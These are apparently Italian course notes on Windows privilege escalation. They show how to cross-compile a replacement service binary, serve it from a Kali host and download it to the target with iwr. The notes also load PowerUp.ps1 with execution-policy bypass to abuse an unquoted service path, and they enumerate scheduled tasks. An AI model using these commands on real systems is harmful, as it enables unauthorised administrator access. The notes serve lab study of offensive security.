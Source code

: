 Come sempre lo compiliamo su kali e lo passiamo su windows:

```bash
x86_64-w64-mingw32-gcc Current.c -o Current.exe

python3 -m http.server 80

cd C:\\path_dove_caricare_il_file\..
iwr -uri http://$KALI_IP/Current.exe -Outfile Current.exe
```

Avvio del servizio:

```bash
Start-Service GammaService
```

Controllo creazione nuovo utente:

```bash
net localgroup administrators
```

IN ALTERNATIVA A TUTTO QUELLO APPENA FATTO SI POTREBBE UTILIZZARE _PowerUp.ps1_ :

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

python3 -m http.server 80

iwr -uri http://$MIO_IP/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-UnquotedService
```

Viene mostrato anche come è possibile automatizzare il processo di exploit:

```bash
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Ma sti cazzi.

# 16.3. Abusing Other Windows Components

## 16.3.1. Scheduled Tasks

Se si riuscisse a trovare un task automatizzato che esegue in un contesto con privilegi più alti si potrebbe sfruttare per aumentare i propri privilegi.

```bash
schtasks /query /fo LIST /v
```
